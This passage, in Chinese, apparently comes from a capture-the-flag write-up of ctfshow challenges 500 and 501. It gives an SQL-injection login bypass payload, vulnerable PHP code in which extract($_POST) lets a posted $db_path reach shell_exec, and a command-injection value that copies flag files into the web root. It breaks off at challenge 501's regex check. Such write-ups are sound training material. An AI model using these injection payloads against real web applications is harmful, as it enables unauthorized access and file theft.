 ![](https://i.loli.net/2021/11/20/q5UbKxIlEGNyHsv.png)

然后访问`/config/settings.php`rce就行



## 500-rce



同上，登录进后台先：

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

多了个页面：`数据管理->数据库备份`
看下关键部分：

```php
# /index.php?action=../api/admin_db_backup

if($user){
	extract($_POST);
	shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.__DIR__.'/../backup/'.$db_path);
```

`extract($_POST);`可以变量覆盖，控制`$db_path`构造payload：

```
db_path=;cat /f* > /var/www/html/a.txt
```

![](https://i.loli.net/2021/11/20/NtugAqSHi7bPwBn.png)

再访问a.txt就行



## 501-rce

还是得先登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

多了对`$db_format`的正则匹配，要求存在`zip|tar|sql`

```php
if(preg_match('/^zip|tar|sql$/', $db_format)){
		shell_exec('mysqldump -u root -h 127.0.0.1 -proot --databases ctfshow > '.__DIR__.'/../backup/'.date_format(date_create(),'Y-m-d').'.'.$db_format);

```

